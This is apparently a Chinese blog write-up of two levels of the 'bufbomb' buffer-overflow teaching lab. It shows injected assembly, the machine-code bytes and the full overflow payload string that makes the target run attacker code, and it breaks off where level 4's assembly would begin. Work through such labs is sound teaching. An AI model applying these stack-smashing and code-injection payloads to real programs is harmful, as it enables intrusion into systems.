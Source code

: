 
###Test 3: Firecracker
前面两个攻击都只是修改了函数调用路线，没什么卵用，本实验将实现如何让程序执行我们自己的hack的代码，这要就能随心所欲的干坏事了:)。在bufbomb中有如下代码：

    :::c
    int global_value = 0;
    void bang(int val)
    {
        if (global_value == cookie) {
            printf("Bang!: You set global_value to 0x%x\n", global_value);
            validate(2);
        } else
            printf("Misfire: global_value = 0x%x\n", global_value);
        exit(0);
    }

**实验任务**：在getbuf返回时执行我们自己定义的指令，这些指令要修改global_value值为cookie，然后执行bang函数。

总的思路就是编写修改global_value的汇编指令放在buf中，然后跟前面的实验一样，只是将跳转的地址改成buf的地址，这要执行getbuf后就跳到去执行汇编指令，这些汇编指令除了要修改global_value的值外，还要确保执行完后要能跳到bang函数执行。
我们的汇编指令如下(example.S)：

    movl $0x3ab24af4, 0x0804d100  #put cookie value in global_value (addr: 0x0804d100)
    pushl $0x08048c9d             #push bang entry address into stack
    ret
注意global_value的地址是将bufbomb的bss段objdump出来的。下面如何将这些汇编指令转换称机器指令呢？
可以使用如下命令：
    unix> gcc -m32 -c example.S
    unix> objdump -d example.o > example.d

example.d如下内容：
    
    00000000 <.text>:
    0:	c7 05 00 d1 04 08 f4 	movl   $0x3ab24af4,0x804d100
    7:	4a b2 3a 
    a:	68 9d 8c 04 08       	push   $0x8048c9d
    f:	c3                   	ret    
前面的数字就是对应的机器码，将这些机器码写入level3.txt，还有buf的起始地址：

    
    c7 05 00 d1 04 08 f4 4a b2 3a 68 9d 8c 04 08 c3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 b8 36 68 55

最后运行: 

    cat level3.txt  | ./hex2raw.py | ./bufbomb -u yj
    Userid: yj
    Cookie: 0x3ab24af4
    Type string:Bang!: You set global_value to 0x3ab24af4
    VALID
    NICE JOB!
完成任务！


###Test 4: Dynamite
前面的几个实验都成功的利用缓冲区来破坏栈并执行我们指定的函数，但是更精妙的攻击方式是让bufbomb执行完我们hack的代码，更改寄存器和内存后，仍然能够正常返回继续执行原程序test()函数。
**实验任务**：让getbuf函数返回cookie的值（而不是１）给test，并且要能正常返回到test中继续执行，这样test会输出“Boom!:...”
思路：跟前面实验类似，在buffer中加入我们自己的code，这段code会把cookie值设给eax（getbuf返回值通过eax传递），然后恢复正确的值给ebp（因为ebp的内容已被buffer破坏），接着将返回到test的指令地址入栈。最后需要将getbuf的返回地址改成buf的起始地址，以执行我们的code。
我们的汇编代码如下：
